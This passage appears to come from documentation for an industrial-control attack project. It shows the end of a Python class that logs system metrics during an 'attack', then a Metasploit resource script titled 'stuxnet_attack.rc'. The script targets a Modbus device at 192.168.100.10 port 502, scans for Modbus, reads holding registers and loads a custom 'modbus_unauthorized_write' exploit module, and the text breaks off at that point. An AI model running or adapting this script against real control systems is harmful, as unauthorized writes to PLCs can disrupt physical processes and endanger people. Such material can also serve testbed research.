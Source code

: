 ```python
        """Collect system metrics"""
        metrics = {
            'timestamp': datetime.now().isoformat(),
            'cpu_percent': psutil.cpu_percent(),
            'memory_percent': psutil.virtual_memory().percent,
            'network_io': psutil.net_io_counters()._asdict(),
            'disk_io': psutil.disk_io_counters()._asdict() if psutil.disk_io_counters() else {}
        }
        self.metrics.append(metrics)
        return metrics
        
    def monitor_attack(self, duration=180):
        """Monitor attack execution for specified duration"""
        self.start_monitoring()
        
        for i in range(duration):
            metrics = self.collect_metrics()
            print(f"Time: {i}s, CPU: {metrics['cpu_percent']}%, Memory: {metrics['memory_percent']}%")
            time.sleep(1)
            
        self.save_metrics()
        
    def save_metrics(self):
        """Save collected metrics to file"""
        with open('attack_metrics.json', 'w') as f:
            json.dump(self.metrics, f, indent=2)
        print(f"Metrics saved to attack_metrics.json")

if __name__ == "__main__":
    monitor = AttackMonitor()
    monitor.monitor_attack(180)  # Monitor for 3 minutes
```

## Configuration Files

### Metasploit Resource Scripts
```ruby
# stuxnet_attack.rc
# Metasploit resource script for Stuxnet-style attack

# Set workspace
workspace -d default
workspace -a ics_attack

# Set target
setg RHOSTS 192.168.100.10
setg RPORT 502

# Use Modbus scanner
use auxiliary/scanner/scada/modbusdetect
run

# Use Modbus client
use auxiliary/client/scada/modbusclient
set ACTION READ_HOLDING_REGISTERS
set DATA_ADDRESS 40001
set QUANTITY 10
run

# Use custom exploit
use exploit/industrial/modbus_unauthorized_write
```